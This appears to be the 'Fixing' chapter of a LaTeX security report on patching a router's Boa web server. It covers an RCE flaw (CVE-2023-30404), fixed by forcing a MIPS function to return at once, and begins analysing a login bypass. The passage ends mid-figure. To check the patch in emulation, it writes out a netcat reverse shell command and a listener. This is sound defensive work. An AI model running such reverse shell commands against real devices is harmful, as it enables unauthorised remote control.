\chapter{Fixing}
\label{chap:fixing}
  \section{Patching RCE}
        % rimozione della funzione che permette l'esecuzione di comandi arbitrari

    To mitigate the RCE vulnerability affecting the router firmware, it was necessary to patch the component responsible for enabling arbitrary command execution. During the firmware analysis, the function \emph{FUN\_00440290} was identified by following the methodology described at \cite{mandomat}. This function was responsible for invoking the routine used to execute system commands. Further reverse engineering revealed that the function was merely a leftover from previous firmware versions and was no longer required for the normal operation of the device.
    \\
    Rather than modifying the command execution logic, the chosen mitigation strategy was to neutralize the vulnerable function by forcing it to return immediately. In the original Boa binary, the beginning of the function was replaced with the following MIPS instructions:

\begin{lstlisting}[language=Asm,caption={Patched function prologue}]
jr    $ra
addiu $sp, $sp, 0x98
\end{lstlisting}

    These instructions implement an immediate return on the \textbf{big-endian MIPS (MIPS BE)} architecture. The \emph{addiu} instruction occupies the branch delay slot of \emph{jr} and restores the stack pointer before control flow returns to the caller.

    The remaining bytes in the patched region were replaced with MIPS \emph{nop} instructions, encoded as \emph{0x00000000} rather than \emph{0x90}, which is specific to x86. Figure~\ref{fig:boa_ghidra} shows the patched function in Ghidra.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.9\textwidth]{../imgs/4.1-Boa_patched_ghidra.png}
        \caption{Boa binary patched with Ghidra}
        \label{fig:boa_ghidra}
    \end{figure}

    The byte-level comparison in Figure~\ref{fig:boa_vs_boapatched} confirms that the original command execution routine was replaced by the immediate-return sequence followed by \emph{nop} padding. This preserves the binary layout while preventing execution from reaching the vulnerable code path.

    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{../imgs/4.2-Boa_vs_Boapatched.png}
        \caption{hexdump: Boa vs Boa patched}
        \label{fig:boa_vs_boapatched}
    \end{figure}

    Starting from this first patch on the original Boa binary, we then prepared the two Boa versions used in the final Firmadyne tests. This additional step was necessary because the original firmware web application was not fully stable in the emulated environment. Infact, as anticipated, several code paths depended on Realtek-specific NVRAM/MIB state that was not completely reproduced by Firmadyne. As a consequence, some requests caused Boa to dereference invalid pointers and terminate with a segmentation fault.
    \\
    For this reason, we maintained two stabilized Boa binaries:

  \begin{itemize}
      \item \emph{boa.before-boaPatched}, which preserves the RCE-vulnerable command execution handler;
      \item \emph{boa.patched-stable}, which includes the RCE mitigation and is used to verify that the reverse shell can no longer be obtained.
  \end{itemize}

  As described in Section~\ref{sec:firmware emulation}, before applying the security patches we produced a stabilized Boa binary for the Firmadyne environment. That binary, saved as \emph{boa.before-boaPatched},
  preserved the original RCE-vulnerable command execution handler but included the emulation-stability changes required to prevent crashes caused by incomplete Realtek MIB/NVRAM state.

  Starting from this stabilized vulnerable binary, we then produced \emph{boa.patched-stable}. This second binary keeps the same Firmadyne stability changes, but additionally disables the RCE handler at \emph{0x00440290}. Therefore, the comparison between \emph{boa.before-boaPatched} and \emph{boa.patched-stable} isolates the RCE patch itself: both binaries are usable in the emulated web interface, but only the first one still exposes the vulnerable command execution path.
  \\
  At the RCE level, the important difference between the two stabilized binaries is located at the function starting at \emph{0x00440290}. In \emph{boa.before-boaPatched}, the function still contains the original logic that reads the \emph{sysCmd} parameter and reaches the command execution path (Figure~\ref{fig:boa_before_440290}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.3-Ghidra_boa_before_patched_stabile.png}
      \caption{\emph{boa.before-boaPatched} in Ghidra}
      \label{fig:boa_before_440290}
  \end{figure}

  In \emph{boa.patched-stable}, the same function was neutralized by replacing its entry point with an immediate return:

\begin{lstlisting}[language=Asm]
jr    $ra
nop
\end{lstlisting}

  The \emph{nop} instruction occupies the MIPS branch delay slot. This stabilized patch is functionally equivalent to the earlier patch applied to the original Boa binary, because both versions prevent execution from reaching the command execution logic. However, the exact delay-slot instruction is different. In the original patched binary, the delay slot contains \emph{addiu \$sp,\$sp,0x98}, while in the stabilized patched binary it contains a \emph{nop}. This difference is acceptable because \emph{boa.patched-stable} returns before creating a stack frame, so no stack pointer restoration is required.
  \\
  Figure~\ref{fig:boa_patched_stable_440290} shows the patched function in Ghidra.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.4-Ghidra_boa_patched_stabile.png}
      \caption{\emph{boa.patched-stable} in Ghidra}
      \label{fig:boa_patched_stable_440290}
  \end{figure}

  The same difference can also be observed directly from the terminal by comparing the bytes at the corresponding file offset. Since the binary is loaded at base address \emph{0x00400000}, the virtual address \emph{0x00440290} corresponds to file offset \emph{0x40290}. The comparison was performed with \emph{xxd}:

\begin{lstlisting}[language=bash]
xxd -g 1 -l 32 -s 0x40290 tentativo_dimensione/squashfs-root/bin/boa.before-boaPatched
xxd -g 1 -l 32 -s 0x40290 tentativo_dimensione/squashfs-root/bin/boa.patched-stable
\end{lstlisting}

  In the vulnerable stabilized binary, the dump still contains the original function body. In the patched stabilized binary, the first bytes are:

\begin{lstlisting}
03e00008 00000000
\end{lstlisting}

  which correspond to:

\begin{lstlisting}[language=Asm]
jr    $ra
nop
\end{lstlisting}

  Figure~\ref{fig:xxd_boa_rce_comparison} shows the byte-level comparison between the two stabilized Boa versions.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/4.5-Confronto_boa.png}
      \caption{Byte-level comparison}
      \label{fig:xxd_boa_rce_comparison}
  \end{figure}

  After rebuilding the Firmadyne image with \emph{boa.patched-stable}, we repeated the same reverse shell test used during the exploitation phase. On the host machine, we started a listener on port \emph{9001}:

\begin{lstlisting}[language=bash]
nc -nvlp 9001
\end{lstlisting}

  Then, through the exploit script, we attempted to execute the same reverse shell command:

\begin{lstlisting}[language=bash]
/tmp/nc 192.168.10.100 9001 -e /bin/sh
\end{lstlisting}

  With the patched Boa binary, the listener did not receive any incoming connection (Figure~\ref{fig:no_reverse_shell_listener}). This demonstrates that the command execution handler was no longer able to spawn the reverse shell.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/4.6-Attacco_RCE_non_riuscito.png}
      \caption{No reverse shell connection}
      \label{fig:no_reverse_shell_listener}
  \end{figure}

  We also verified the result from inside the emulated firmware. If the attack had succeeded, a \emph{/tmp/nc} process would have appeared in the process list. Instead, after running:

\begin{lstlisting}[language=bash]
ps | grep nc
\end{lstlisting}

  the only matching process was the \emph{grep} command itself, and no \emph{/tmp/nc} reverse shell process was present (Figure~\ref{fig:no_nc_process_firmadyne}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.7-Conferma_su_server.png}
      \caption{No \emph{/tmp/nc} reverse shell process in firmadyne}
      \label{fig:no_nc_process_firmadyne}
  \end{figure}

  These tests confirm that the stabilized patched Boa binary preserves the expected web interface behavior while preventing exploitation of CVE-2023-30404. In other words, the same firmware image remains usable in Firmadyne, but the vulnerable command execution path no longer reaches the code responsible for launching system commands.

    \section{Patching Login By-pass}

  The login by-pass vulnerability was related to the way Boa handled the authenticated state after a successful login. Before applying the patch, the login page itself accepted the correct credentials and redirected the authenticated user to the home page (Figure~\ref{fig:login_bypass_legitimate_home}). However, shortly after a legitimate login, another unauthenticated user was also able to access the same protected page (Figure~\ref{fig:login_bypass_unauthenticated_home}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.8-LoginLeg_prefix.png}
      \caption{Home page accessed by a legitimate authenticated user}
      \label{fig:login_bypass_legitimate_home}
  \end{figure}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.9-LoginIlleg_prefix.png}
      \caption{Unauthenticated user accessing the home page after a recent valid login}
      \label{fig:login_bypass_unauthenticated_home}
  \end{figure}

  This behavior showed that the issue was not only in the credential comparison logic. Instead, Boa was maintaining a temporary global authentication state that could be reused for a short period of time by another request.

  We started the analysis from the login handler. In Ghidra, the relevant function is located around address \emph{0x00444504}. The handler first reads the value of the \emph{submit-value} parameter, used to distinguish between login and language-change operations (Figure~\ref{fig:login_submit_username}). It then reads the submitted username and password from the HTTP request.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.10-Ghidra1.png}
      \caption{Boa login handler reading \emph{submit-value} and \emph{username}}
      \label{fig:login_submit_username}
  \end{figure}

  The password parameter is read shortly after (Figure~\ref{fig:login_password}). At this point, the handler has both user-controlled values needed for authentication.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.11-Ghidra2.png}
      \caption{Boa login handler reading the \emph{password} parameter}
      \label{fig:login_password}
  \end{figure}

  The submitted username is compared against the expected username using \emph{strcmp} (Figure~\ref{fig:login_compare_username}).

\begin{lstlisting}[language=Asm]
jalr    t9          ; strcmp
move    a1, s1      ; submitted username
\end{lstlisting}

  \begin{figure}[H]
      \centering
